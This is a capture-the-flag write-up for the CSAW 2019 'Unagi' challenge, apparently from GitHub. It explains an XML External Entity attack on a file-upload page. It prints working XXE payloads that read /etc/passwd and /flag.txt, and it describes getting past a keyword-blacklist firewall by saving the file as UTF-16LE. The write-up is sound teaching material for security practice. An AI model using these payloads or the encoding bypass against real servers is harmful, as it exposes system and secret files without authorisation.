





# Unagi writeup - 200pts

## What we have
The chall provide us with a link to a very basic website of 4 pages:

So we know the flag is located at `/flag.txt`.
In the upload page we can download this XML file:

    <?xml version='1.0'?>
	<users>
		<user>
			<username>alice</username>
			<password>passwd1</password>
			<name>Alice</name>
			<email>alice@fakesite.com</email>
			<group>CSAW2019</group>
		</user>
		<user>
			<username>bob</username>
			<password>passwd2</password>
			<name> Bob</name>
			<email>bob@fakesite.com</email>
			<group>CSAW2019</group>
		</user>
	</users>

And uploading it, we get this result:

## About the vulnerability
This seems to be the classic situation in which it is possible to exploit an XML External Entity ([XXE](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing)) vulnerability.

In these cases the first thing I usually try is the following payload to read a file (for example `/etc/passwd`, which is accessible by any user on linux):

    <?xml version='1.0'?>
	<!DOCTYPE foo [
		<!ENTITY flag SYSTEM "file:///etc/passwd">
	]>
	<users>
	    <user>
	        <username>AAA</username>
	        <password>BBB</password>
	        <name>&flag;</name>
	        <email>CCC</email>  
	        <group>DDD</group>
	    </user>
	</users>

But there's a Web Application Firewall (WAF) that is blocking our file:

## The WAF
Trying to remove or change some things, I realized that the WAF checks that the content of the file does not correspond to a blacklist of words.

For example, the following code (I just added an "X" inside "ENTITY" , "SYSTEM" and "file") is not blocked (but it no longer works):

    <?xml version='1.0'?>
	<!DOCTYPE foo [
		<!ENTXITY flag SYSXTEM "fiXle:///etc/passwd">
	]>
	<users>
		<user>
			<username>AAA</username>
			<password>BBB</password>
			<name>&flag;</name>
			<email>CCC</email>  
			<group>DDD</group>
		</user>
	</users>

Two options to bypass the WAF:
- don't use blacklisted words (maybe impossible)
- [play with encodings](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0#a3ca)

I just tried to save the original payload (after adding `encoding='utf-16'` to the XML opening tag) in UFT-16LE (I used Notepad++ on Windows, but I'm sure that other editors can make this too; for example I've seen someone doing this challenge with VSCode and others with Gedit and [some terminal commands](https://stackoverflow.com/questions/64860/best-way-to-convert-text-files-between-character-sets)).

Uploading it, we can finally read `/etc/passwd`... Or not?

Argh, our output is truncated!

At this point, I propose two solutions.

## Solution #1 - Look for another output field
I checked all the others output fields and... They were all truncated.

After a while, I realized that the "User" page (look at the first screenshot of this writeup) showed a field named "intro", which is not used inside the "example format" downloaded.

Maybe it isn't truncated? Let's check, this time trying to obtain the flag file.

(Remember to save this as UTF-16LE to bypass WAF)

    <?xml version='1.0' encoding="utf-16"?>
    <!DOCTYPE foo [
	    <!ENTITY file SYSTEM "file:///flag.txt">
	]>
	<users>
		<user>
			<username>AAA</username>
			<password>BBB</password>
			<name>CCC</name>
			<email>DDD</email>
			<group>EEE</group>
			<intro>&file;</intro>
		</user>
	</users>

Bingo!

## Solution 2 - Out Of Band (OOB)
Coming soon; I'm writing it!
